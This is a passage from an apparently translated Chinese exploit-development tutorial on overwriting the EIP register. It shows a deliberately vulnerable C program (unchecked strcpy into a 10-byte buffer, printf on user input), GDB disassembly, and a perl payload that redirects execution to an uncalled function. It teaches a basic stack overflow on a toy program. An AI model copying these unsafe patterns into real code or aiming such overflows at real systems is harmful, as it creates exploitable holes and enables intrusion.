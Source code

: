 ## EIP 的重力

EIP 或程序计数器是一个 32 位寄存器，用于保存程序将执行的下一条指令的值。现在，我们为什么要讨论它？我们之所以讨论它，是因为要利用系统或服务，我们需要用我们希望程序重定向的指令地址覆盖当前驻留在 EIP 中的地址。这意味着当我们利用系统时，我们覆盖 EIP 的值，将程序流重定向到我们所需的代码，并执行我们需要在目标上执行的任何功能。

让我们使用以下代码在 C 中创建一个程序：

```
//Header Files Section
int main(int argc , char *argv[])
{
if(argc<2)
{
printf("Please Supply a value in arguments");
exit(0);
}
char buffer[10];
strcpy(buffer , argv[1]);
printf("\nYour Entered Value is:");
printf(buffer);
}
void nowork()
{
printf("This is Me");
exit(0);
}
```

前面的代码在通过提供命令行参数执行时，只需打印出提供的值。这里要分析的一个重要内容是名为`nowork()`的函数。因为它在程序中的任何地方都没有被调用，所以它不会执行。但是，如果我们用这个函数的地址覆盖 EIP，我们可以只通过提供命令行参数来运行这个函数。我们可以看到这里的缓冲区大小是 10。因此，无论我们在它之后输入什么，它都会直接覆盖 EIP 中的地址。因此，这意味着如果我们在缓冲区之后提供任何内容，它将成为 EIP 寄存器的内容。但是，让我们看看哪些内容将覆盖 EIP。我们需要用要执行的函数的地址覆盖 EIP。因此，我们需要找到函数的地址。我们可以通过将前面的程序加载到 GDB 中并搜索`nowork()`函数的起始地址来实现，如下面的代码段所示：

```
 (gdb) disas nowork
Dump of assembler code for function nowork:
 0x080484e0 <+0>:   push   %ebp
 0x080484e1 <+1>:   mov    %esp,%ebp
 0x080484e3 <+3>:   sub    $0x4,%esp
 0x080484e6 <+6>:   movl   $0x80485b3,(%esp)
 0x080484ed <+13>:  call   0x8048340 <printf@plt>
 0x080484f2 <+18>:  movl   $0x0,(%esp)
 0x080484f9 <+25>:  call   0x8048370 <exit@plt>

```

我们可以看到模块从`0x080484e0`地址开始。因此，这是我们将用于覆盖 EIP 中当前内容的地址。让我们看看如何做到这一点：

```
 (gdb) run $(perl -e print' "A"x14 . "\xe0\x84\x04\x08"')
Starting program: /home/apex/Desktop/Misc/yo $(perl -e print' "A"x14 . "\xe0\x84\x04\x08"')
The Value You Supplied isAAAAAAAAAAAAAAЄThis is Me[Inferior 1 (process 4313) exited normally] 

```
